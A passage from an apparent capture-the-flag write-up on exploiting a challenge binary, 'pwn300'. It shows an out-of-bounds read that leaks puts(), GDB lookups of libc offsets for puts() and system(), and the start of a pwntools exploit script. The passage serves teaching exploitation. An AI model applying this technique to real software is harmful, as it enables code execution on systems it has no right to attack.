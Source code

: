 Another thing to note is that it is possible to print out the function pointer itself if it has been unmodified, thereby leaking the address of `puts()`. The unprintable characters shown below contain the address in hexadecimal.
```sh
$ ./pwn300                                                                                               127 ⨯
[1] add name
[2] print name
[3] exit
2
index: 100
���
[1] add name
[2] print name
[3] exit
3
```

We can open up the library in GDB to figure out the offset of `puts()` and the offset of `system()` from the base of libc.
```sh
$ gdb libc-2.31.so
GNU gdb (Debian 10.1-1.4) 10.1

[...]

gef➤  info functions puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x0000000000085e60  _IO_fputs
0x0000000000085e60  fputs
0x00000000000875a0  _IO_puts
0x00000000000875a0  puts
0x00000000000914a0  fputs_unlocked
0x00000000001273c0  putspent
0x0000000000129090  putsgent
gef➤  info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0x0000000000055410  __libc_system
0x0000000000055410  system
0x0000000000156a80  svcerr_systemerr
```

We can write some Python code to calculate the base of libc by subtracting `0x875a0` from the leaked address of `puts()`. Then we can calculate the address of `system()` by adding `0x55410` to that value.
```python
#!/usr/bin/env python3
from pwn import *

# Open the process
env = {"LD_PRELOAD": "./libc-2.31.so"}
p = process("./pwn300", env=env)
# gdb.attach(p, "b *print_name+143\nc\nc")

# Ignore first few lines
for x in range(0, 3):
    p.recvline()

# Leak the address of puts() and calculate offsets
p.sendline("2")
p.sendline("100")
```